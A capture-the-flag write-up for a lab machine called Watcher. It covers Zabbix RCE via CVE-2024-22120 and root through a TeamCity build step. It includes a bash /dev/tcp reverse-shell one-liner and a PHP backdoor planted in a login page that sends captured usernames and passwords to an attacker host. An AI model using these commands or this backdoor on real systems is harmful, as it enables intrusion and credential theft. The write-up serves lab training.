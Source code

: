 
![](https://images-ext-1.discordapp.net/external/t5J7RHf9Ce4qzovuWH58fQjf0tQy6jDpKgmYAzNHrwM/https/assets.vulnlab.com/watcher_slide.png?format=webp&quality=lossless)

##  Machine Summary

We first find a Zabbix instance which is a vulnerable version where we can gain RCE via `CVE-2024-22120`. After gaining a shell we can backdoor the application to gain the credentials of another user `Frank`. With that user we can login to an internal `TeamCity` instance, that runs as `root`. Where we can create a pipeline to gain a reverse shell as `root`. 

## Recon

```ad-summary
title: NMAP
collapse: open

```nmap
nmap -sC -sV -p- --min-rate 1000 10.10.92.19 -oA watcher  

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-25 20:02 CEST
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 25.00% done; ETC: 20:02 (0:00:12 remaining)
Nmap scan report for 10.10.92.19
Host is up (0.019s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f0:e4:e7:ae:27:22:14:09:0c:fe:1a:aa:85:a8:c3:a5 (ECDSA)
|_  256 fd:a3:b9:36:17:39:25:1d:40:6d:5a:07:97:b3:42:13 (ED25519)
80/tcp    open  http       Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://watcher.vl/
10050/tcp open  tcpwrapped
10051/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```ad-important
title: Domains
collapse: open

- **watcher.vl**
```

## Initial Access
We are first presented with a normal website. We then perform subdomain enumeration:
```
ffuf -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -u http://watcher.vl -H 'Host: FUZZ.watcher.vl' --fw 1720
```

This yields `zabbix.watcher.vl`

Guest login is enabled there. After login we can see a dashboard where it states the zabbix version as `Zabbix version 7.0.0alpha1`.
There is a [RCE vulnerability](https://gridinsoft.com/blogs/zabbix-sqli-vulnerability/) for this version. A [POC is available on Github](https://github.com/W01fh4cker/CVE-2024-22120-RCE) 

To get the `hostid` we can navigate to Inventory -> Hosts . There is only one with a hostid of `10084` which can be found as a query parameter after clicking on the host.
The `sessionid` can be found in cookie, by base64 decoding it.

Then the script can be run by providing those two parameters:
```
python3 CVE-2024-22120-RCE-2.py --ip zabbix.watcher.vl --sid bbf2d4b5233188ccfe382b39129644f5 --hostid 10084
```

After gaining a shell, it's advisable to stabilize the shell using something like pwncat:

```
bash -c "/bin/bash -i >& /dev/tcp/REDACTED/6063 0>&1" &
```

```
pwncat-cs -lp 6063
```

## Privilege Escalation

After stabilizing the shell we can get the user flag.

There is an interesting service running at 8111 which seems to be a `Teamcity` instance:
To access it we add our ssh key to the users home `/var/lib/zabbix/.ssh` inside `authorized_keys`. We can't actually login using ssh, but we can still use that for a socks proxy:

```
ssh -D 1080 -N -i zabbix.key zabbix@watcher.vl
```

We seem to have access to the login page in `/usr/share/zabbix/index.php` .
We can backdoor that file to forward all logins to our host:

```
$name = $_POST['name'] ?? 'Unknown';
$password = $_POST['password'] ?? 'Unknown';

// Prepare the log entry
//$logEntry = "Name: " . $name . ", Password: " . $password . "\n";

// Write the log entry to the file /tmp/log.txt
// The FILE_APPEND flag ensures the entry is added at the end of the file
// The file will be created if it does not exist
//file_put_contents('/tmp/log.txt', $logEntry, FILE_APPEND);
file_get_contents('http://REDACTED/x?name=' . $_POST['name'] . '&pass=' . $password);
//echo "Data logged successfully2!";
```

Then we get a request to our server after a few minutes:
```
10.10.70.236 - - [25/Jul/2024 23:01:02] "GET /x?name=Frank&pass=REDACTED HTTP/1.1" 404 -
```

We now have creds:
- `Frank`:`REDACTED`

We can now use those creds to access Teamcity. 
<br>
There is a agent running. Just open the terminal on this one and you can run system commands as root. 

![create-build-config](images/agent.png)

The other way is creating a pipeline to get a shell.
<br>
Create a new project:
![new-project](images/new-project.png)
![create-project](images/create-project.png)

On the page we now get redirected to there is a Button `Create Build Configuration`
![create-build-config](images/create-build-config.png)

Just enter a name and save
![create-build-config-save](images/create-build-config-save.png)

Then skip the VCS integration
![vs-skip](images/vs-skip.png)

Then in the BuildConfiguration switch to BuildSteps in the navbar on the left:
![create-build-config](images/create-build-config.png)
![create-build-config-save](images/create-build-config-save.png)
There you can add a build step:
![add-build-step](images/add-build-step.png)

Select `Command Line` as type:
![cmd-line](images/cmd-line.png)

Then we enter reverse shell command in the Custom Script box:
![cmd-line2](images/cmd-line2.png)

Then save and click run on the top:
![run-build](images/run-build.png)

After a few seconds a revshell as root will get sent to our host.

We can then read the flag from the root directory:
```
(remote) root@watcher.vl:/root# cat root.txt 
VL{REDACTED}
```

